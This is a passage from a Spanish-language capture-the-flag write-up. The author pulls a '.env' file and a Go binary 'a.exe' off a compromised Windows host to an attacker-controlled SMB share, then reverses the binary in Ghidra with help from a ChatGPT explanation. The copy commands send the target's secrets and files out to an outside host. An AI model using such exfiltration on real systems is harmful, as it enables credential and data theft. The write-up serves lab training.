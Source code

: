 Vemos una secuencia en base64 `7GM0hTEK1IcpArBkUmIbZiQvmopg5Truh57rdp1uaS84nBRCWekG402RXYdj4y_YAhpFqIzEix0=`

Pero se nos representa que no es un input válido.
```console
$ echo "3IovgiWmZw6P_io9AcyoQ5GMiqJToDb69FeynB4wLSSMNrIPvY_BkGxovMEFi7KoJ6afXC6LjQ0=" | base64 -d
܊/%gbase64: invalid input
```

## Reversing `a.exe`
Haciendo uso de la información obtenida en la nota, vamos a decompilar el binario `a.exe` a ver si este es el cliente para decompilar la credencial del usuario `backup`

Nos vamos a copiar a nuestra máquina el binario `a.exe` y el fichero `.env`

```console
C:\Temp\www\internal\content\posts\internal-laps-alpha>copy .env \\10.10.14.125\smbFolder\.env
        1 file(s) copied.
C:\Temp\www\internal\content\posts\internal-laps-alpha>copy a.exe \\10.10.14.125\smbFolder\a.exe
        1 file(s) copied.
```

```console
$ file a.exe
a.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 13 sections
```

`ghidra` nos reporta que es un binario que ha sido compilado con `golang`

Detectamos la función `main`, por el camino he visto que se utilizan funciones relacionadas con operaciones criptográficas.
![Write-up Image](images/Screenshot_9.png)

Podemos pasarle esta función a ChatGPT y nos responde lo siguiente:
### 1. **Carga de variables de entorno**:

- El programa comienza cargando variables de entorno utilizando la función `os.Getenv`. Estas variables pueden estar relacionadas con configuraciones de la aplicación, como direcciones URL, claves de API, o configuraciones de entorno.
- Se menciona el uso de una biblioteca llamada `godotenv` (`github.com/joho/godotenv.Load`) que se utiliza comúnmente para cargar variables de entorno desde un archivo `.env`.
